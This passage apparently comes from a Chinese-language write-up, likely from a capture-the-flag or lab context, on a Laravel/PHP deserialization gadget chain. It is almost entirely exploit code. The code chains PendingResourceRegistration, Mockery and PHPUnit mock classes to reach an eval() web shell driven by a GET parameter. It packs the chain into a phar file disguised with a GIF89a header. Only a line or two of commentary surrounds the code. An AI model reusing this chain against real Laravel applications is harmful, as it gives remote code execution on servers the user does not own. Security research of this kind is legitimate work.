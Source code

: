 不过测试了一下, 高版本的 `ImportConfigurator` 类会返回 `Cannot unserialize` 的提示, 那我们就用 `PendingResourceRegistration` 类

```
&lt;?php

namespace Illuminate\Routing`{`
    class PendingResourceRegistration`{`
        protected $registrar;
        protected $name;
        protected $controller;
        protected $options;
        public function __construct($registrar, $name, $controller, $options)
        `{`
            $this-&gt;registrar = $registrar;
            $this-&gt;name = $name;
            $this-&gt;controller = $controller;
            $this-&gt;options = $options;
        `}`
    `}`
`}`

namespace Mockery `{`
    class HigherOrderMessage `{`
        private $mock;
        private $method;
        public function __construct($mock) `{`
            $this-&gt;mock = $mock;
            $this-&gt;method = 'generate';  // 调用 mock 类的 generate 方法
        `}`
    `}`
`}`

namespace PHPUnit\Framework\MockObject `{`
    class MockTrait `{`
        private $classCode;
        private $mockName;
        public function __construct($classCode) `{`
            $this-&gt;classCode = $classCode;
            $this-&gt;mockName = 'undefined';  // 控制 $mockname 为不存在的类
        `}`
    `}`
`}`

namespace `{`

    use Mockery\HigherOrderMessage;
    use PHPUnit\Framework\MockObject\MockTrait;
    use Illuminate\Routing\PendingResourceRegistration;

    $c = new MockTrait("phpinfo(); echo 'Ricky in serialize!'; eval(filter_input(INPUT_GET,\"ricky\"));");
    $b = new HigherOrderMessage($c);
    $a = new PendingResourceRegistration($b, 'ricky', 'ricky', 'ricky');

    $phar = new Phar("ricky1.phar"); //生成phar文件
    $phar-&gt;startBuffering();
    $phar-&gt;setStub('GIF89a'.'&lt;?php __HALT_COMPILER(); ? &gt;');
    $phar-&gt;setMetadata($a); //触发头是C1e4r类
    $phar-&gt;addFromString("test.txt", "test"); //生成签名
    $phar-&gt;stopBuffering();
`}`
```
